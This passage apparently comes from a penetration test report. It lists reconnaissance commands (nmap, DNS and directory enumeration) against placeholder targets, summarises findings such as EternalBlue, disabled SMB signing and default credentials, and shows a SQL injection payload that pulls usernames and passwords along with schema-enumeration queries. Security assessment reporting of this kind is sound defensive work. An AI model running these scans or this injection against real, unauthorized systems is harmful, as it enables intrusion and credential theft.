 ```bash
# Domain enumeration
nmap -sn 192.168.1.0/24
nmap -sS -O -sV -p- target-range

# DNS enumeration
dig @8.8.8.8 target-domain.com
fierce -dns target-domain.com
dnsrecon -d target-domain.com -t std

# Web application discovery
dirb https://target-domain.com /usr/share/dirb/wordlists/common.txt
gobuster dir -u https://target-domain.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Discoveries:**
- 45 live hosts identified
- 8 web services running
- Multiple outdated services detected
- Sensitive information in DNS records

### Phase 2: Vulnerability Analysis

#### Network Infrastructure
Critical vulnerabilities identified:

1. **SMB Signing Disabled (CVE-2019-1040)**
   - **Impact:** Man-in-the-middle attacks possible
   - **Affected Systems:** 12 Windows servers
   - **CVSS Score:** 8.1

2. **Unpatched EternalBlue Vulnerability (CVE-2017-0144)**
   - **Impact:** Remote code execution
   - **Affected Systems:** 3 Windows 7 workstations
   - **CVSS Score:** 9.3

3. **Default Credentials on Network Devices**
   - **Impact:** Complete device compromise
   - **Affected Systems:** 2 network switches, 1 router
   - **CVSS Score:** 9.8

#### Web Application Vulnerabilities

**SQL Injection in Customer Portal**
```sql
-- Payload that achieved database access
' UNION SELECT username, password FROM users--

-- Data extracted
SELECT COUNT(*) FROM information_schema.tables; -- 47 tables
SELECT table_name FROM information_schema.tables WHERE table_schema='customer_db';
```
